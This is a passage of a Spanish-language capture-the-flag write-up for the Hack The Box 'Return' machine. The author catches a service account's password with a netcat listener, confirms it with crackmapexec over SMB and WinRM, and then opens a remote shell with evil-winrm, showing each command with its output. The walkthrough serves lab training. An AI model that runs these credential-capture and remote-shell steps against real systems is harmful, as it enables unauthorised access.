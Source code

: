 <img src="/assets/HTB/Return/settings.png">

Nos llega la petición y obtenemos una credencial

```bash
❯ nc -nlvp 389
listening on [any] 389 ...
connect to [10.10.14.41] from (UNKNOWN) [10.10.11.108] 60410
0*`%return\svc-printer
                      1edFg43012!!
```
Con `crackmapexec` validamos la credencial obtenida

```bash
❯ crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
SMB         10.10.11.108  445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108  445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
```
Como sabemos que el puerto 5985 (winrm) está abierto, comprobamos que con las credenciales obtenidas podamos conectarnos a este servicio

```bash
❯ crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
SMB         10.10.11.108  5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.10.11.108  5985   PRINTER          [*] http://10.10.11.108:5985/wsman
WINRM       10.10.11.108  5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```
Mediante la herramienta `evil-winrm` accedemos a la máquina víctima

```bash
❯ evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```
